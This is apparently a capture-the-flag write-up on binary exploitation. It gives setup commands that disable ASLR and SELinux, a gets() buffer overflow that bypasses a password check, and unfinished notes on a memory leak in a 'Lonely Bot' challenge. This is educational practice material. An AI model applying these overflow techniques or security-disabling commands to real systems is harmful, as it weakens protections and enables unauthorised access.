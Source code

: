 # Exploitation
Anytime you run across these types of challenges
* Disable Address Space Layout Randomization (ASLR)
* Set ulimit to `unlimited` for core file generation
* Disable SELinux
   ```sh
    sysctl kernel.randomize_va_space=0
    ulimit -S -c unlimited > /dev/null 2>&1
    setenforce 0
   ```

## 75pts: [Stack Overflow]
Authenticate without the password. Cause the program to print 'Success!' without crashing it and without the password. Note the value for 'authenticated' as well.

1. Copy the code into a  file: `exploit-75pts.c`
2. The hint tells us it also wants the value of `authenticated`
3. Edit the program and add a `printf()` statement:
   ```sh
    ...
     if (authenticated) {
         printf("Success!\n");
         printf("%d\n",authenticated);
         return 0;
      }
    ...
   ```
4. Code Review: `strncmp()` - `compares the only first (at most) n bytes of s1 and s2`
5. Code Review: `gets()` - ` gets() will continue to store characters past the end of the buffer`
6. Compile: `gcc -Wall exploit-75pts.c -o exploit-75pts` (note the compiler warning)
6. Entering anything greater than 12 characters as a password (clobbering `\0`), should pass `strncmp()` check:
   ```sh
   ./exploit-75pts
   Enter the password: AAAAAAAAAAAAA
   Success!
   65
   ````

## 175pts: [Lonely Bot]
Lonely Bot just wants to talk. (program output in web console).
* I haven't solved this one yet. The following are just some notes.
* Old tool, `memdump` could be useful? http://www.porcupine.org/forensics/tct.html

1. Crash the program (generate core file): `./lonely_bot < /dev/urandom`
2. Base64 input:
   ```sh
   echo -n 'E' | base64
   RQ==

   base64> RQ==
   Now you're speaking my language!!
   Here's everything I know about that:

   No, I don't think that's right.
   Please, tell me more.
   base64> RQ==0x000000000000000000000000000000000000000000000111
   Now you're speaking my language!!
   Here's everything I know about that:

   The answer is 42.
   Please, tell me more.
   base64> Here's everything I know about that:
   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
   00 00 00 00 00 18 fe 14 32 67 e8 76 90 21 40 00
   00 00 00 00 39 1a 40 00 00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00 01 00 00 00 48 44 b1 26
   fc 7f 00 00 fe 0b 40 00 00 00 00 00 00 00 00 00
   00 00 00 00 06
   Wow! That's very interesting.
   Please, tell me more.
   base64>
   ```
* Find the correct memory address for the flag?
* Notes/Refs: https://bitvijays.github.io/LFC-BinaryExploitation.html

